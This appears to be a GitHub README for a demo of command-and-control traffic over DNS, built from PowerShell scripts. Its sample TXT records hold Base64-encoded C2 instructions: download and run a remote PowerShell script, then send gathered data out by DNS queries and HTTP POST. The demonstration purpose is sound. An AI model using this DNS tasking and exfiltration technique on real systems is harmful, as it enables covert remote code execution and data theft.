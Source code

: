 # DNS C2 Demo

This set of scripts will help you to demostrate how easy it is to run C2-traffic thru DNS

The script ***demo-create-txt-records.ps1*** creates Base64 encoded records that can be used as TXT-entries

Something like this:

```
;QUESTION
c2demo.ronnkvist.nu. IN TXT
;ANSWER
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsyO1BTO2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzszO1NldDtjMmRlbW9zZXJ2ZXIucm9ubmt2aXN0Lm51"
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs0O2h0dHA7ZGVtby1wdXNoLW91dC50eHQ="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzswO1dyaXRlO1RpbWUgdG8gZG8gc29tZSBDMi1zdHVmZiA7KQ=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsxO0dldDtodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vcmlyb2ZhbC9ETlMtQzItRGVtby9tYWluL2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs1O0ROUztkZW1vLXB1c2gtb3V0LnR4dA=="
```

Then you have the script ***demo-c2-client.ps1*** that you can run on a Windows client with Powershell and access to a DNS.

The script will use TXT-records to find and download another script, execute it and show how a simple DNS-query would send out the information gathered.

### Example output from Demo C2 Client
![Example Output](./demo-c2-client-output.png?raw=true)


### Showing C2 traffic using DNS-queries

[DNSChef](https://github.com/iphelix/dnschef) can be used for a lot of fun DNS-stuff but in this example just to showcase the DNS-queries used as C2 traffic.

You can change the DNS-settings on your client or just use the parameter ***$demoC2DnsServer*** and point it to your DNSChef

```
.\demo-c2-client.ps1 -demoC2DnsServer  "192.168.100.156"
```

![Example Output](./demo-c2-client-dnschef.png?raw=true)


### Showing outgoing HTTP-post

A [small Python http server](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) can be used to see the HTTP-traffic

![Example Output](./demo-c2-client-webserver.png?raw=true)
